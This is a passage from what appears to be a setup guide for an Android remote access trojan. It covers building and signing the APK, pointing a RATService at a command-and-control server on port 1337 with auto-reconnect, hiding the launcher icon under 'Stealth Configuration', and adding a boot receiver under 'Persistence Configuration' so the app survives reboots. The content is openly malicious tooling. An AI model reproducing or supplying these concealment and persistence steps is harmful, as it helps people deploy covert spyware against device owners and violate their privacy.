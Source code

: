```kotlin
            signingConfig = signingConfigs.getByName("release")
        }
    }
}
```

#### 4. Build Release APK
```bash
# Build release version
./gradlew assembleRelease

# Verify signing
jarsigner -verify -verbose -certs app/build/outputs/apk/release/app-release.apk
```

### Client Configuration

#### 1. Server Connection Settings
```kotlin
// Update in RATService.kt
companion object {
    private const val SERVER_HOST = "your-server-ip"
    private const val SERVER_PORT = 1337
    private const val RECONNECT_DELAY = 10000L
}
```

#### 2. Stealth Configuration
```xml
<!-- AndroidManifest.xml - Hide app icon -->
<activity
    android:name=".MainActivity"
    android:exported="true"
    android:theme="@android:style/Theme.NoDisplay">
    <!-- Remove intent-filter to hide from launcher -->
</activity>
```

#### 3. Persistence Configuration
```xml
<!-- Add boot receiver -->
<receiver android:name=".BootReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter android:priority="1000">
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="android.intent.action.MY_PACKAGE_REPLACED" />
        <action android:name="android.intent.action.PACKAGE_REPLACED" />
        <data android:scheme="package" />
    </intent-filter>
</receiver>
```
